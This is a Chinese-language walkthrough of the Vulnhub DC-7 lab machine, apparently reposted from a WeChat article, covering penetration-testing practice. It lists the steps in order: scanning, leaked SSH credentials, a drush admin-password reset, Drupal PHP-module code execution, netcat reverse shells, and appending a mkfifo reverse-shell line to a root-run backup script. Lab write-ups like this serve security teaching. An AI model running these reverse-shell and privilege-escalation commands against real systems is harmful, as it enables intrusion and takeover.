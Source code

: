 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/hcH1Uu24paa8DT5T8ARtyw)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。DC-7 全程只有一个 falg，获取 root 权限，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

Download: http://www.five86.com/downloads/DC-7.zip

目标机 IP 地址：192.168.5.142  
攻击机 kali IP 地址：192.168.5.135

arp-scan -l  发现目标主机。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsf7jEc1OWXeWT1bjzx6JRUvYD8fFNk4ST0rfibrcLkrAr9z8icFHWKibXg/640?wx_fmt=png)

扫描端口 

```
nmap -sS -sV -p- 192.168.5.142
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsiarLUGFSEs6NGmariaetUgmTS1cibSu1OWAcHHOicHkLoCHU4CSxW66FOA/640?wx_fmt=png)

访问 80 端口是 Drupal CMS。页面中提示我们强行的爆破不会成功，让我们尝试一下对外方式。社工操作。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2t6eichRrT4Ge72BBcqt4KITTtyLItGf01BD6YH8eqITdyh7UycA8C7w/640?wx_fmt=png)

某度下搜了一下 @DC7USER, 发现开源项目。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2orammMBBSZZEZ3RTh7cUcoIxtdKXnAt8NoysRSYF8F6rpm473JW6xQ/640?wx_fmt=png)

查看 config 配置文件，存在一位用户名以及密码, ssh 登录。

dc7user/MdR3xOgB7#dW

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsopq3zdA01aAicEQGfolafxe5y7yfsMiao9DLpxqib1AgaUwicibD0hAibPbg/640?wx_fmt=png)

ssh 连接成功。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRs2VqR93CgjRe9VCvFRHHWBGgN22PxmlllGUK9ibrOKo547f8ibxEcvIcQ/640?wx_fmt=png)

home 目录下存在一个文件夹，还有一个 mbox 文件。  

查看 mbox 发现一封邮件，记录了一些对数据库的转存内容。

好像是说数据库转存到了 / home/dc7user/backups/website.sql

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsX2DRcLzExrRu0nN3wlzDmsEphkGnsiciclnjcVt4FFLibKAw7aib9qAKsQ/640?wx_fmt=png)

发现两个 gpg 后缀的文件，.gpg 后缀的文件是某种加密文件。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2gIDmG5poEwDM9ZaSSIZibBdQDaZpOEibHVUNpHqSzL7AdZceic0zA44cw/640?wx_fmt=png)

/opt/scripts/backups.sh 文件只有 www 和 root 用户才可执行。我通过 backups.sh 发现该站配置了 drush。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2exiaTXjEC4Muib5BnrNyWYWpZ4nmZwR0PpTvskhGLXHcE5I8AkVPQNBA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2gRrFHa0wZicMAyhibxvIbymVd81QqdtSHicCqqJ73LUStjYdeiakZXXMkw/640?wx_fmt=png)

Drupal 使用 Drush 是专门服务于 drupal 的第三方模块。

使用 drush 来更改 admin 用户的密码。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsQOqqeoiaLmibibkDYslkJuQoUiacmSF0nl1r6ILOvXxf9tZjCJKEdwcoicA/640?wx_fmt=png)  

可通过 drush 修改 admin 的密码。  

```
drush user-password admin --password="gem"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25Zx6sHyzjJgWbicA6nnEwRsXqXYrsH9kBsXIiaKFP8VxOANxNx8fzO6xzjiamAdErJcrW2yMhDqqzWw/640?wx_fmt=png)  

后台登陆成功。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2lSVPWw3G4nbicToXCYUlrogyMMZjg7MaXE7r89XdphZoPSCLt7eNDwQ/640?wx_fmt=png)

点击 extend 扩展 php 模块。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2wiaURARx8CNEzukw0BPSia0xA74IGZicKQITy5es07XKzfhU8aNTzjdXQ/640?wx_fmt=png)

下载 php 模块：  

https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz

添加进去。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2iabqZkKc8wic1JibrhicWkmwmZjKfWQ5kVuoicm8ekF0rQe7SjYyicozvhmg/640?wx_fmt=png)

开启 php 模块，点击后 install 后即可。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2QCiaBvVR09TKIJHicV1ETRiafzib3aj94LEGGD3JhxXMOcjzXia2ia8NgK5g/640?wx_fmt=png)

添加模板，尝试执行 php 代码。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2SduPQhavvzT6Et6EwzATDkb7iciaJCt57JjpQCYniaoXVrd28n7Kzbv9A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2SKLSy7Sc7Rtdn8NvAEKGgUibBmv3PhZcOWwenUW20YiapHm13HvTKILQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2Tibaj6EfEJr1CHOfibibfwj8q8ExUQbty7TzzqzeXRbnic2ZJlVKREP89w/640?wx_fmt=png)

写入一句话，蚁剑连接，反弹 shell。

```
nc 192.168.5.135 7777 -e /bin/bash
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2VnXI9IA31wTCGrqZDRX7hYwxuG5IwVkqqCjSQXC083IezicfmKicgGwQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2AydK5rx1amc7ibZZDMklzreQHeAEiaX0nywgLr0SAk2uSgPhsKmNI9Xg/640?wx_fmt=png)

转换交互式 shell。

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

提权: 写入 backups.sh 获取 root 权限。

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.5.135 8888 >/tmp/f" >> backups.sh
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2xhbCErnicog3aDfKsmSGhg4lym1bVMH5pd8dROHZ7utxiaaCkERiak25Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa25v8hM6vwZakEosw1o2Q1f2RlUMpjY1kXVQkkW18fwuAqHqfX0yTA6OHoNMcPj9ohGIa6LfePT1Qg/640?wx_fmt=png)